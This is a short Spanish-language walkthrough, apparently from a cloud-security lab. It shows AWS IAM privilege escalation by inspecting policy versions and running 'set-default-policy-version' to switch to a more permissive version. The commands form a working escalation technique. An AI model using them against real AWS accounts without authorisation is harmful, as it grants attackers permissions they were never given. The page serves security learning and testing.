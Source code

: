 Como se observa en la imagen anterior, la versión 1 es la que está por defecto y que existe otra versión la numero 2, se procede a compara cual versión tiene mas privilegios

{% code overflow="wrap" %}
```
aws iam get-policy-version --policy-arn arn:aws:aim::some:some --version-id v3 --profile privesc2
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Se ve que la política que no está por defecto, tiene mas permisos que la política actual

{% code overflow="wrap" %}
```
aws iam get-policy --policy-arn arn:aws:iam::651927172911:policy/privesc2- SetExistingDefaultPolicyVersion
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (9) (2) (1).png" alt=""><figcaption></figcaption></figure>

Finalmente, se procede a realizar el cambio de la política por la versión con más permisos

{% code overflow="wrap" %}
```
aws iam set-default-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc2- SetExistingDefaultPolicyVersion --version-id v2 --profile privesc2
```
{% endcode %}

